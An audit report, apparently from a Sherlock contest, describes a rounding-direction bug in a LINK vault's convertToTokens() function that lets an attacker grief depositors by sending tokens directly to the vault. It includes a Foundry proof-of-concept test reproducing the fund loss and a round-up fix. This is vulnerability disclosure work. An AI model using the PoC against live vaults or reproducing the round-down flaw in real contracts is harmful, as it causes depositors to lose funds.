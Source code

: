 CRYP70

medium

# Rounding error in `convertToTokens` leads to a loss of user funds

## Summary
The `convertToTokens()` is currently used when redeeming shares for a return of tokens or to check the users balance. This is called in `balanceOf()` which in turn is used in the second check of `withdraw()`. 

## Vulnerability Detail
 EIP-4626 (while ERC4636 is not explicitly implemented, the concept of tokenized vaults still applies) specifies that developers who implement Vaults need to know about the need for specific, opposite rounding directions across the different mutable and view methods:

-   If the Vault is determining the amount of the underlying tokens to transfer to them for returning a certain amount of shares, it should round _down_.
    
-   If the Vault is calculating the amount of shares a user has to supply to receive a given amount of the underlying tokens, it should round *up*.

[Source](https://eips.ethereum.org/EIPS/eip-4626)

This bug can be triggered when a malicious user forcibly sends LINK tokens to the vault not as the first investor. 

## Impact
Loss of funds for investing users. I have awarded this a medium in severity because this can be executed at any time and is quite cheap to do. Whilst the attacker doesn't benefit directly from this, the user still suffers a loss (also known as griefing). 

## Code Snippet
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L604

## Proof of Concept
```solidity
pragma solidity ^0.8.9;

import "../../lib/forge-std/src/Test.sol";
import "../../lib/forge-std/src/console.sol";
import "../../src/Vault.sol";
import "../../src/AttackerContract.sol";
import "../../src/plugins/AaveV2Plugin.sol";
import "../utils/Token.sol";
import "openzeppelin/proxy/ERC1967/ERC1967Proxy.sol";


contract MyTests is Test {
    Token public link;
    Vault public vault;
    AaveV2Plugin public aavePlugin;
    address implementation;
    address proxy;

    address public alice = vm.addr(1);
    address public bob = vm.addr(2);
    address public carol = vm.addr(3);
    address public dan = vm.addr(4);
    address public eve = vm.addr(5);
    address public frank = vm.addr(6);
    address public admin = vm.addr(7);

    function setUp() public {

        link = new Token("Chainlink", "LINK");
        vm.startPrank(address(admin));
        implementation = address(new Vault());
        proxy = address(new ERC1967Proxy(implementation, ""));
        vault = Vault(proxy);
        vault.initialize(address(link), address(admin), 10e34, 1000);

        vm.stopPrank();
    }

    function testTriggerRoundingError() public {

        link.mint(address(alice), 1000 ether);
        link.mint(address(eve), 101 ether);
        link.mint(address(bob), 250 ether);

        // Normal traffic of depositing funds
        vm.startPrank(address(bob));
        link.approve(address(vault), 12 ether);
        vault.deposit(12 ether);
        vm.stopPrank();

        vm.startPrank(address(eve));
        link.transfer(address(vault), 1 ether); // Hacky way to trigger rounding error
        vm.stopPrank();

        vm.startPrank(address(alice));
        link.approve(address(vault), 500 ether);
        vault.deposit(500 ether);

        vm.expectRevert("Amount exceeds balance");
        vault.withdraw(500 ether); 
        // Alice's balance is actually 499
        // When changing the convertToTokens() to return with `mulDivUp()`, 
        // the value is readjusted back to right value of 500.
        vm.stopPrank();

    }

}
```

## Tool used
Manual Review

## Recommendation
Instead of rounding down, I recommend implementing the `convertToTokens()` function to round up similarly to the following:
```solidity
    function convertToTokens(uint256 _shares) public view returns (uint256) {
        uint256 shareSupply = totalShares; // saves one SLOAD
        if (shareSupply == 0) {
            return _shares / STARTING_SHARES_PER_LINK;
        }
        return _shares.mulDivUp(totalSupply(), shareSupply); 
    }
```

